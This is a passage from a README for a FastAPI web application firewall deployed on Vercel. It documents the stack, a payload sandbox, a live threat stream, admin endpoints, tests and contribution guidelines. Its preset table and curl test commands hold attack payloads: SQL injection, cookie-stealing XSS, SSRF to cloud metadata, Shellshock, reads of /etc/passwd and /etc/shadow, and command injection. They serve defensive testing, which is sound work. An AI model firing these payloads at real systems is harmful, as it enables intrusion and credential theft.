        threat = await engine.evaluate(request)
        if threat:
            return JSONResponse({"blocked": True, "rule_id": threat.rule_id}, status_code=403)
        response = await call_next(request)
        response.headers["X-WAF-Status"] = "clean"
        return response
```

### Starlette — ASGI Middleware Foundation

Starlette is FastAPI's underlying ASGI toolkit. `BaseHTTPMiddleware` from Starlette is the class OUTLOOP subclasses to intercept request scopes. Starlette's `Request` object provides `.query_params`, `.headers`, `.body()` — the three surfaces inspected by the WAF engine.

### Uvicorn — ASGI Production Server

Uvicorn is the ASGI server runtime that translates incoming HTTP connections into ASGI scope dictionaries passed to FastAPI. On Vercel, the Python runtime wraps the FastAPI app with an ASGI adapter; locally, `uvicorn api.index:app --reload` is used for development with hot-reload support.

### Three.js r160 — Attack Globe Visualization

The SOC dashboard hero renders a WebGL particle globe using Three.js. Incoming attack events animate as arcs from their source IP geolocation to the server location. The particle system uses `BufferGeometry` for GPU-side position arrays and `ShaderMaterial` for custom GLSL glow effects.

### Server-Sent Events (SSE) — Real-Time Telemetry

The threat stream at `/api/events/threats` uses the `text/event-stream` MIME type — a unidirectional HTTP push protocol. The FastAPI endpoint yields a `StreamingResponse` with an async generator that dequeues threat events as they occur. The browser uses the native `EventSource` API to consume the stream, with built-in reconnection on disconnect.

SSE was chosen over WebSockets because threat telemetry is unidirectional — the server pushes, the client only reads. SSE has lower handshake overhead and works over standard HTTP/2 multiplexing.

### Pytest 7.x — Security Test Suite

The 44-test suite covers 8 test modules with attack payload verification:

| Module | Tests | Coverage Area |
|--------|-------|---------------|
| `test_waf.py` | 23 | SQLi, XSS, RCE, LFI, Path Traversal, Command Injection, SSRF payloads |
| `test_health.py` | 6 | Health, readiness, metrics endpoints |
| `test_evasion.py` | varies | Encoded payloads, double-encoding bypass attempts |
| `test_rate_limiter.py` | varies | Burst rate enforcement |
| `test_admin.py` | 3 | Admin key auth, IP ban, blocklist |
| `test_events.py` | varies | SSE stream connection and event format |
| `test_metrics.py` | varies | Counter accuracy |
| `test_antigravity.py` | 3 | Route and status endpoint coverage |

Each WAF rule has a corresponding positive test (blocked) and negative test (clean) in `test_waf.py`. New signatures require both before merge.

### Vercel Serverless — Edge Deployment

The WAF runs as a Vercel Python Serverless Function via `@vercel/python`. The `vercel.json` routing table directs all `/api/*` paths to `api/index.py` and serves static assets from `api/static/` via CDN. Cold starts are ~300ms; warm invocations execute in under 10ms.

---

## Feature Breakdown

### Interactive Payload Sandbox

The Sandbox at [/#playground](https://outloop-waf.vercel.app/#playground) is a browser-native WAF testing environment eliminating the need for curl, Postman, or local setup. One-click presets fire production attack payloads directly at the WAF engine and surface the full inspection result.

**Presets Available:**

| Preset | Payload Sample | Rule Triggered | Severity |
|--------|---------------|----------------|----------|
| SQL Injection | `' OR 1=1; --` | SQLi-001 | CRITICAL |
| XSS | `<script>alert(document.cookie)</script>` | XSS-003 | HIGH |
| SSRF / Metadata | `http://169.254.169.254/latest/meta-data/` | SSRF-001 | HIGH |
| Shellshock RCE | `() { :; }; /bin/bash -i` | RCE-001 | CRITICAL |
| Local File Inclusion | `../../../../etc/passwd%00` | LFI-002 | HIGH |
| Path Traversal | `../../windows/system32/cmd.exe` | PATH-004 | MEDIUM |
| Command Injection | `127.0.0.1; cat /etc/shadow` | CMD-001 | CRITICAL |
| Clean Request | `HelloWAF` | *(none)* | — |

The sandbox renders a live **5-stage pipeline visualization** highlighting the exact gate that flagged the payload: Inbound HTTP → Multi-Decoder → Regex Match → Policy Layer → Final Verdict.

---

### Real-Time SOC Threat Stream

The Threat Stream at [/#threats](https://outloop-waf.vercel.app/#threats) uses Server-Sent Events to push blocked attack records to the dashboard without polling.

**Live SSE Event Schema:**

```json
{
  "rule_id": "SQLi-007",
  "severity": "CRITICAL",
  "description": "UNION SELECT injection intercepted",
  "source_ip": "203.0.113.xxx",
  "timestamp": "2026-06-19T10:22:01.442Z",
  "request_id": "550e8400-e29b-41d4-a716-446655440000"
}
```

The stream maintains a live **severity counter** (CRITICAL / HIGH / MEDIUM / LOW) updating in real time as events arrive. The client-side reconnection wrapper handles CDN timeout disconnects with exponential backoff.

---

### Signature Intelligence Explorer

The Explorer at [/#rules](https://outloop-waf.vercel.app/#rules) provides a searchable, filterable view of all 57 compiled signatures. Standard users see rule names and IDs; entering an admin key in the Workspace reveals raw regex patterns.

Rules are searchable by Rule Name, Rule ID, or Regex Pattern, and filterable by severity tier.

---

### Admin Operations Workspace

The Workspace at [/#admin](https://outloop-waf.vercel.app/#admin) provides a terminal-aesthetic command console for live WAF management.

| Command / Action | Endpoint | Description |
|-----------------|----------|-------------|
| `waf admin stats` | `GET /api/admin/stats` | Total requests, blocked count, uptime, active rules |
| `waf blocklist show` | `GET /api/admin/blocklist` | All banned IPs with reason and ban timestamp |
| Ban an IP | `POST /api/admin/ban` | Immediately block a target IP with reason |
| Remove ban | `DELETE /api/admin/ban/{ip}` | Lift an existing IP block |
| View all rules | `GET /api/admin/rules` | Full 57-signature list with regex patterns |

**Live Status Bar** (persistent footer):

```
OUTLOOP WAF v1.0.0  |  REQ: 00247  |  BLOCKED: 00031  |  RULES: 57  |  GRAVITY: 9.8 m/s²  |  12:34:56 UTC
```

---

### Zero-Gravity Easter Egg

Clicking **GRAVITY** in the footer calls `/api/gravity?code=1807` with header `X-Antigravity: true`. On HTTP 418 (I'm a Teapot), the entire dashboard enters zero-gravity mode — panels drift and rotate via CSS floating keyframe animations until gravity is re-enabled.

---

## API Reference

Full interactive documentation: [Swagger UI](https://outloop-waf.vercel.app/api/docs) · [ReDoc](https://outloop-waf.vercel.app/api/redoc)

### Public Endpoints

| Method | Endpoint | Description | Response |
|--------|----------|-------------|----------|
| `GET` | `/api/health` | Service health check | `{"status": "healthy", "version": "1.0.0", "rules": 57}` |
| `GET` | `/api/ready` | Readiness probe | `{"ready": true, "engine": "loaded"}` |
| `GET` | `/api/metrics` | Traffic counters | `{"total": 1024, "blocked": 312, "allowed": 712, "uptime_s": 3600}` |
| `GET` | `/api/status` | Engine status | `{"gravity": "9.8 m/s²", "engine": "ACTIVE"}` |
| `GET` | `/api/secure/test` | WAF inspection sandbox | `200 {"clean": true}` or `403 {"blocked": true, "rule_id": "..."}` |
| `GET` | `/api/secure/echo` | Echo headers through WAF | `{"headers": {...}, "waf_status": "clean"}` |
| `GET` | `/api/events/threats` | SSE threat stream | `text/event-stream` — continuous JSON event data |

### Admin Endpoints — `X-Admin-Key` Required

| Method | Endpoint | Description | Body |
|--------|----------|-------------|------|
| `GET` | `/api/admin/stats` | Detailed engine statistics | — |
| `GET` | `/api/admin/rules` | Full signature list with regex patterns | — |
| `GET` | `/api/admin/blocklist` | All currently banned IPs | — |
| `POST` | `/api/admin/ban` | Add IP to blocklist | `{"ip": "...", "reason": "..."}` |
| `DELETE` | `/api/admin/ban/{ip}` | Remove IP from blocklist | — |

### Live Test Commands

```bash
# Health check
curl https://outloop-waf.vercel.app/api/health

# Clean payload — expect 200
curl "https://outloop-waf.vercel.app/api/secure/test?payload=HelloWAF"

# SQL Injection — expect 403 CRITICAL
curl "https://outloop-waf.vercel.app/api/secure/test?payload=' UNION SELECT username, password FROM users --"

# XSS — expect 403 HIGH
curl "https://outloop-waf.vercel.app/api/secure/test?payload=<script>alert(document.cookie)</script>"

# Path Traversal — expect 403 HIGH
curl "https://outloop-waf.vercel.app/api/secure/test?payload=../../../../etc/passwd"

# Command Injection — expect 403 CRITICAL
curl "https://outloop-waf.vercel.app/api/secure/test?payload=\$(whoami)"

# SSRF AWS Metadata — expect 403 HIGH
curl "https://outloop-waf.vercel.app/api/secure/test?payload=http://169.254.169.254/latest/meta-data/"

# Shellshock RCE — expect 403 CRITICAL
curl "https://outloop-waf.vercel.app/api/secure/test?payload=()%20{%20:;%20};%20/bin/bash%20-i"

# Subscribe to live threat stream
curl -H "Accept: text/event-stream" https://outloop-waf.vercel.app/api/events/threats

# Admin — ban an IP (replace with your key)
curl -X POST https://outloop-waf.vercel.app/api/admin/ban \
  -H "X-Admin-Key: your-admin-key" \
  -H "Content-Type: application/json" \
  -d '{"ip": "203.0.113.42", "reason": "Automated SQLi scanner"}'
```

---

## Deployment & Infrastructure

OUTLOOP WAF runs entirely on **Vercel's serverless edge platform** — no dedicated servers, no ops burden.

### Vercel Deployment Architecture

```mermaid
graph LR
    subgraph GH["GitHub Repository\nobstinix/outloop-waf"]
        SRC[Source Code\nmain branch]
        VJ[vercel.json\nRouting config]
        REQ[requirements.txt\nPython deps]
    end

    subgraph VCL["Vercel Platform"]
        direction TB
        CI[Build Step\npip install deps]
        FUNC[Serverless Function\napi/index.py · Python runtime]
        CDN[Global CDN\nStatic assets: HTML · CSS · JS]
        EDGE[Edge Network\n100+ PoPs worldwide]
    end

    subgraph DNS["Production Endpoints"]
        LIVE[outloop-waf.vercel.app]
        API_D[/api/* → Serverless Function]
        STAT[/* → CDN]
    end

    SRC -->|git push main| CI
    VJ -->|Route rules| CI
    REQ -->|pip install| CI
    CI --> FUNC
    CI --> CDN
    FUNC --> EDGE
    CDN --> EDGE
    EDGE --> LIVE
    LIVE --> API_D
    LIVE --> STAT
```

### Infrastructure Properties

| Property | Value |
|----------|-------|
| **Cold Start** | ~300ms on first invocation |
| **Warm Latency** | < 10ms per request |
| **Global PoPs** | 100+ edge locations |
| **Scaling** | Auto-scales to demand |
| **Ops Burden** | Zero — no servers, no patches |
| **Cost Baseline** | Fully operable on Vercel hobby plan |

### `vercel.json` Routing

```json
{
  "version": 2,
  "builds": [
    { "src": "api/index.py", "use": "@vercel/python" }
  ],
  "routes": [
    { "src": "/api/(.*)", "dest": "api/index.py" },
    { "src": "/(.*)", "dest": "api/index.py" }
  ]
}
```

### Environment Variables

```bash
WAF_ADMIN_KEY=your-secret-key          # X-Admin-Key validation value
ALLOWED_ORIGINS=http://localhost:3000  # CORS allowed origins
UPSTASH_REDIS_REST_URL=                # Optional: Redis for persistent cross-instance stats
UPSTASH_REDIS_REST_TOKEN=              # Optional: Redis auth token
RATE_BURST_REQUESTS=20                 # Max requests per burst window
RATE_BURST_SECONDS=1                   # Burst window size in seconds
WAF_MODE=enforce                       # enforce | monitor | disabled
LOG_LEVEL=INFO                         # DEBUG | INFO | WARNING | ERROR
```

> Set these in the Vercel project dashboard under **Settings → Environment Variables** before deploying to production.

---

## Getting Started

### Prerequisites

```
Python  ≥ 3.9
Node.js ≥ 18.x  (Astro frontend only)
pip     ≥ 23.x
```

### Local Setup

```bash
# 1. Clone
git clone https://github.com/obstinix/outloop-waf.git
cd outloop-waf

# 2. Create virtual environment
python -m venv venv
source venv/bin/activate        # Linux / macOS
# venv\Scripts\activate         # Windows

# 3. Install dependencies
pip install -r requirements.txt

# 4. Configure environment
cp .env.example .env
# Edit .env — set WAF_ADMIN_KEY and preferred options

# 5. Start development server
python -m uvicorn api.index:app --reload --port 8000
```

Access the running stack:

```
SOC Dashboard     →  http://localhost:8000
Swagger API Docs  →  http://localhost:8000/api/docs
Health Check      →  http://localhost:8000/api/health
```

### Run the Test Suite

```bash
pytest -v
```

Expected:

```
tests/test_health.py          ✓  6 passed
tests/test_waf.py             ✓ 23 passed
tests/test_antigravity.py     ✓  3 passed
tests/test_admin.py           ✓  3 passed
tests/test_evasion.py         ✓  passed
tests/test_events.py          ✓  passed
tests/test_metrics.py         ✓  passed
tests/test_rate_limiter.py    ✓  passed
──────────────────────────────────────────
TOTAL                         ✓ 44 passed
```

### Docker

```bash
docker-compose up --build
```

### Deploy to Vercel

```bash
npm install -g vercel
vercel login
vercel --prod
```

---

## Project Structure

```
outloop-waf/
├── api/
│   ├── index.py                  # FastAPI application entry point
│   ├── static/
│   │   └── index.html            # SOC Dashboard (Three.js + SSE client)
│   ├── waf/
│   │   ├── middleware.py         # BaseHTTPMiddleware — request interception hook
│   │   ├── rules.py              # 57 signature definitions (regex + severity + ID)
│   │   ├── engine.py             # Threat analysis core (multi-pass decode + regex match)
│   │   └── rate_limiter.py       # Sliding-window per-IP rate limiter
│   ├── routes/
│   │   ├── health.py             # /api/health · /api/ready · /api/metrics
│   │   ├── secure.py             # /api/secure/test · /api/secure/echo
│   │   └── gravity.py            # /api/status
│   └── utils/
│       └── logger.py             # Structured JSON logging
├── frontend/                     # Astro documentation layer
├── tests/
│   ├── test_health.py            # 6 health endpoint tests
│   ├── test_waf.py               # 23 WAF engine tests (attack payload matrix)
│   ├── test_antigravity.py       # 3 route and status tests
│   ├── test_admin.py             # 3 admin endpoint authentication tests
│   ├── test_evasion.py           # Encoding evasion bypass attempts
│   ├── test_events.py            # SSE stream connection and event format
│   ├── test_metrics.py           # Counter accuracy validation
│   └── test_rate_limiter.py      # Sliding-window enforcement tests
├── Dockerfile
├── docker-compose.yml
├── pytest.ini
├── requirements.txt
└── vercel.json
```

---

## Contributing

Contributions that improve detection coverage, reduce false positives, or extend the platform are welcome.

### For New Contributors

Before opening a pull request, please read through the project's architecture section to understand how middleware interception, the multi-pass decoder, and the signature engine connect. The best first contributions are new WAF signatures — they follow a well-defined pattern and come with clear acceptance criteria (a passing positive test and a passing negative test).

### Reporting Security Issues

If you discover a WAF bypass — a payload that should be blocked but isn't — please open an issue tagged `[bypass]` with the payload, the expected rule category, and how you found it. Responsible disclosure is appreciated and credited.

### Reporting Bugs or Requesting Features

👉 **[Open an Issue](https://github.com/obstinix/outloop-waf/issues/new/choose)**

Include: Python version, OS, reproduction steps, expected vs actual behavior, and relevant log output.

### Submitting Pull Requests

```bash
# 1. Fork and branch
git checkout -b feat/your-feature-name

# 2. Write tests first — every new WAF rule needs positive and negative coverage
# 3. Verify the full suite passes
pytest -v

# 4. Commit with conventional messages
git commit -m "feat(waf): add CRLF injection header rule CRLF-003"

# 5. Push and open PR against main
```

### Adding a New WAF Signature

New patterns are added to `api/waf/rules.py`:

```python
{
    "id": "CATEGORY-NNN",          # e.g. SQLi-014 · XSS-014 · CMD-009
    "name": "Human readable label",
    "severity": "CRITICAL",         # CRITICAL | HIGH | MEDIUM | LOW
    "pattern": r"your_regex_here",
    "description": "What this detects, attack class, and why it matters"
}
```

**Acceptance criteria:**
- At least one positive test (payload blocked) in `tests/test_waf.py`
- At least one negative test (clean input passes) in `tests/test_waf.py`
- No regressions in the existing 44 tests
- Pattern documented with a real-world exploit example in the PR description

The community benefits most from signatures covering new evasion techniques, emerging CVEs, and attack patterns not yet in the OWASP corpus.

---

## Research Foundation

| # | Reference | Relevance |
|---|-----------|-----------|
| 1 | [OWASP Top Ten 2021](https://owasp.org/Top10/) | Primary threat taxonomy — A03 (SQLi/XSS), A10 (SSRF) detection priorities |
| 2 | [NIST SP 800-44 v2](https://csrc.nist.gov/publications/detail/sp/800-44/version-2/final) | Web server hardening, header validation, access control |
| 3 | [NIST SP 800-95](https://csrc.nist.gov/publications/detail/sp/800-95/final) | API gateway security model and admin route authentication |
| 4 | [RFC 7230 — HTTP/1.1 Syntax](https://datatracker.ietf.org/doc/html/rfc7230) | Header parsing rules for CRLF injection detection |
| 5 | [RFC 2697 — Three Color Marker](https://datatracker.ietf.org/doc/html/rfc2697) | Token-bucket basis for the sliding-window rate limiter |
| 6 | [CWE Top 25 (2023)](https://cwe.mitre.org/top25/) | CWE-89, CWE-79, CWE-22 map directly to WAF rule categories |
| 7 | Clarke, J. (2009). *SQL Injection Attacks and Defense*. Syngress. | Foundation for all 13 SQLi patterns |
| 8 | Cox, R. (2007). [Regex Matching Can Be Simple and Fast](https://swtch.com/~rsc/regexp/regexp1.html) | Basis for compiled-regex over interpreted matching; sub-5ms performance |
| 9 | Grossman, J. (2006). *XSS Attacks*. Syngress. | Reflected, Stored, and DOM-based XSS pattern fingerprints |
| 10 | [OWASP WAF Evaluation Criteria v1.0](https://owasp.org/www-project-web-application-firewall-evaluation-criteria/) | Benchmark for signature coverage and false-positive targets |
| 11 | Ristic, I. (2010). *ModSecurity Handbook*. Feisty Duck. | Reference WAF middleware architecture and rule chaining model |
| 12 | Zalewski, M. (2011). *The Tangled Web*. No Starch Press. | Browser trust model; multi-pass decoder evasion-mitigation strategy |

---

## License

OUTLOOP WAF is released under the **[MIT License](https://github.com/obstinix/outloop-waf/blob/main/LICENSE)** — free to use, modify, and distribute with attribution.

---

<div align="center">

<br/>

**OUTLOOP WAF** · Security Engine v1.0.0 · MIT License © 2026 [obstinix](https://github.com/obstinix)

*Python · FastAPI · Vercel · 57 Signatures · Zero-config perimeter protection*

<br/>

[](https://outloop-waf.vercel.app)
[](https://github.com/obstinix/outloop-waf)
[](https://github.com/obstinix/outloop-waf/issues)
[](https://github.com/obstinix/outloop-waf/stargazers)

<br/>

</div>
